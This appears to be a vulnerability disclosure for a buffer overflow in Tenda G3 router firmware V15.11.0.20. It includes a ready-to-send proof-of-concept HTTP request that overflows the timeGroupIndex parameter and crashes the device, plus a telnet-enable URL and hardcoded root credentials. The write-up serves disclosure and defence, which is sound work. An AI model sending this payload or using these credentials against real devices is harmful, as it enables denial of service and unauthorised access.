



# Tenda G3 Buffer overflow vulnerability

## Overview

- Manufacturer's website information：<https://www.tenda.com.cn/>
- Firmware download address ：<https://www.tenda.com.cn/product/download/G3.html>

## Vulnerability information

There is a Buffer overflow vulnerability in tenda G3 V15.11.0.20, which can cause device to crash and restart, or even execute arbitary code.

## Affected version



Figure shows the latest firmware of V3：V15.11.0.20.

## Vulnerability details

open telnet  <http://192.168.0.1/goform/telnet>
telnet admin/password is root/Fireitup

using ida to analysis httpd, in function formDelTimeGroups:



The program passes the contents obtained by the timeGroupIndex parameter to v3.
Then, v3 is passed to sGroupIndex.  
There is a buffer overflow problem in the later processing of deletegrouppreferencewithoffset function.

## Vulnerability exploitation condition

Need to get cookie after logging in to execute the attack.

The functional data packets are as follows, and we will use this to construct poc.  

```http
GET /goform/delTimeGroups?timeGroupIndex=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA HTTP/1.1
Host: 192.168.0.252
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _:USERNAME:_=; G3v3_user=
Connection: close
```

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Connect physical devices
2. Attack with the POC

The reproduction results are as follows:



Figure shows POC attack effect, the device crashes and restarts.

## CVE-ID

unsigned
